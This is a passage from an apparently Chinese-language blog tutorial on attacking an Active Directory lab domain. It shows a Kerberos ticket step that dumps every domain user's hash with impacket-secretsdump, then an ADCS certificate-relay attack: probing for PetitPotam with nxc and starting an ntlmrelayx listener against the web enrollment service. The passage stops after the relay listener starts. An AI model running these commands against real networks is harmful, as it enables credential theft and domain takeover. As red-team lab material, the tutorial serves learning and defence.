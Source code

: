（6）发起票据传递攻击转储域用户的哈希。

    export KRB5CCNAME=administrator@cifs_dc2013.skylark.com@SKYLARK.COM.ccache
    
    impacket-secretsdump -k -no-pass administrator@dc2013.skylark.com -dc-ip 192.168.56.50 -target-ip 192.168.56.51
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120404895-1083685117.png)

注意：使用 impacket-secretsdump 工具应用服务票据时，提供给工具的参数尽量和使用 impacket-getST 工具申请票据时提供的参数差异不要太大，尤其是 SPN 字串中涉及的主机名称。

**

2、ADCS 证书申请

**
-------------------

#### 环境简介

*   域名 - skylark.com
*   主域控 - DC2012 - Windows 2012 R2 Standard - 192.168.56.50
*   备域控 - DC2013 - Windows 2012 R2 Standard - 192.168.56.51
*   Kali - 192.168.56.20
*   普通域用户 - user

#### 攻击条件

*   主备域控必需要有一个安装 **证书颁发机构** 和 **证书颁发机构 Web 注册** 服务。

> 注意：（1）在安装证书颁发机构 Web 注册服务之前，请先安装 IIS 服务。（2）验证 Web 申请证书服务是否可用，请检查网址 [http://192.168.56.50/certsrv/certrqxt.asp](http://192.168.56.50/certsrv/certrqxt.asp) 是否可以正常访问。若弹出登录框，可用任意域用户的账户进行登录。

#### 攻击流程

在本例中，经检测备域控发现存在 PetitPotam 漏洞。为此，我们可以利用该漏洞，强制让备域控以机器账户 DC2013 的身份向 kali 机器发起 SMB 认证。接着，让 kali 将该机器账户的认证信息通过 HTTP 协议中继到主域控的 Web 证书注册服务，进而我们便获得了关于机器账户 DC2013 的 kerberos 证书。然后，利用这个证书申请到了机器账户 DC2013 的 TGT 票据。最后，通过这张 TGT 票据转储了域中所有用户的哈希。具体操作流程如下：

（1）NTLM 强制认证漏洞检测及证书 Web 注册服务检测。

    nxc smb 192.168.56.51 -u user -p password123 -d skylark.com -M coerce_plus
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120428897-1244964355.png)

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120448926-906947084.png)

可以看到，主备域控存在 PetitPotam 漏洞，且主域控还提供了 web 申请证书服务。

（2）开启中继监听器。

    impacket-ntlmrelayx -t http://192.168.56.50/certsrv/certrqxt.asp --adcs --template 'DomainController'
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120513215-1387380514.png)
